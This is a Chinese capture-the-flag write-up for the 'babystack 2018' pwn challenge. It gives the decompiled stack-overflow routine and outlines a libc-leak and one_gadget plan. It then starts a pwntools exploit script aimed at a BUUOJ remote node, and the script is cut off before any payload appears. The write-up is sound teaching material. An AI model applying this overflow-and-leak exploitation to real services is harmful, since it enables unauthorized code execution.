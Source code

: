 start\_routine()

```plain
void *__fastcall start_routine(void *a1)
{
  unsigned __int64 v2; // [rsp+8h] [rbp-1018h]
  char s[4104]; // [rsp+10h] [rbp-1010h] BYREF
  unsigned __int64 v4; // [rsp+1018h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(s, 0, 0x1000uLL);
  puts("Welcome to babystack 2018!");
  puts("How many bytes do you want to send?");
  v2 = sub_400906();
  if ( v2 <= 0x10000 )
  {
    sub_400957(0LL, s, v2);
    puts("It's time to say goodbye.");
  }
  else
  {
    puts("You are greedy!");
  }
  return 0LL;
}
```

分析一下思路

-   栈溢出控制返回地址执行一个puts泄露libc地址，一个read，控制canary
-   向bss段写入onegadget地址

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",26732)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
```